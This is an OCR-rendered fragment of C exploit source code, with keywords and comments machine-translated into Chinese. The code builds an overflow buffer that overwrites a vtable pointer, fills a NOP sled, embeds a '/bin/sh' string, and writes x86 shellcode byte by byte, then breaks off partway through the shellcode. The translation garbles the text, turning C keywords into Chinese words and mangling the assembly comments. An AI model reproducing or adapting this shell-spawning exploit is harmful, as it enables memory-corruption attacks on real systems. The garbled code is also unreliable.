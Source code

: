 NewBuffer00Offset=NewBufferOffset+(unsigned long)NewBufferSize;

LastByteOffset = VPTROffset + 4;

对于 (i=0;i\<VPTROffset;i++) CBuf\[i\]=\'\\x90\'; //NOP

SBuf=(无符号短\*)&LBuf\[2\];

\*SBuf=添加这个； //添加到栈上的This指针

LBuf=(unsigned long\*)&CBuf\[MethodAddressOffset\];

\*LBuf=缓冲区地址+ShellCodeOffset； //shellcode的地址

LBuf=(无符号长\*)&CBuf\[BinShAddressOffset\];

\*LBuf=缓冲区地址+BinShOffset； // "/bin/sh"的地址

memcpy(&CBuf\[BinShOffset\],BinSh,BinShSize); //\"/bin/sh\" 字符串

//外壳代码：

i=ShellCodeOffset；

CBuf\[i++\]=\'\\x55\';

CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xE5\';

CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xC0\';

CBuf\[i++\]=\'\\xB0\';CBuf\[i++\]=StackCodeSize;

CBuf\[i++\]=\'\\x29\';CBuf\[i++\]=\'\\xC4\';

//推送%ebp

//movl %esp,%ebp

//xorl %eax,%eax

//movb \$StackCodeSize,%al

//subl %eax,%esp

CBuf\[i++\]=\'\\x57\';

CBuf\[i++\]=\'\\x56\';

CBuf\[i++\]=\'\\x52\';

CBuf\[i++\]=\'\\x51\';

CBuf\[i++\]=\'\\x53\';

CBuf\[i++\]=\'\\x9C\';

// pushl是%

// pushl% esi

//推送 %edx

// pushl% ecx

//推送 %ebx
